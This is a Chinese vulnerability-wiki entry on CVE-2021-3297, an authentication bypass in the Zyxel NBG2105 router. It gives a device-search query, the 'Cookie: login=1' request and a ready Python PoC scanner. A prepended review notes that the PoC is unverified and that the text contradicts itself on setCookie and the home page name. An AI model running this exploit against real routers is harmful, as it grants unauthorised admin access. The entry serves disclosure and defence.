



# Zyxel NBG2105 身份验证绕过 CVE-2021-3297

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Zyxel NBG2105
- 本文讨论：CVE-2021-3297 login cookie
- 版本、权限与配置前提：无具体固件，修改cookie login=1
- 资料类型：前端认证绕过PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- setCookie函数设置cookie并跳转不是检测cookie的函数，描述与代码不符
- 200+GMT不足证明管理员权限；缺受限业务API结果
- 无固定版本，home.html/home.htm混用

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 实际授权边界及固件范围待原始披露核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

参考阅读：

- https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass


## 漏洞影响

```
Zyxel NBG2105
```

## 网络测绘

```
app="ZyXEL-NBG2105"
```

## 漏洞复现

登录页面如下




其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验




可以看到检测到 Cookie中的 **login=1** 则跳转 home.html

```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```

请求如下则会以管理员身份跳转到 **home.htm页面**

```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```




## 漏洞POC

```
# python3
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning


def poc(url):
    exp = url + "/login_ok.htm"

    header = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cookie":"login=1",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=exp, headers=header, verify=False,timeout=10)
        #print(response.text)
        if response.status_code == 200 and "GMT" in response.text:
            print(exp + " 存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
            print("数据信息如下：")
            print(response.text)
        else:
            print(exp + " 不存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
    except Exception as e:
        print(exp + "请求失败！！")


def main():
    url = str(input("请输入目标url："))
    poc(url)


if __name__ == "__main__":
    main()
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
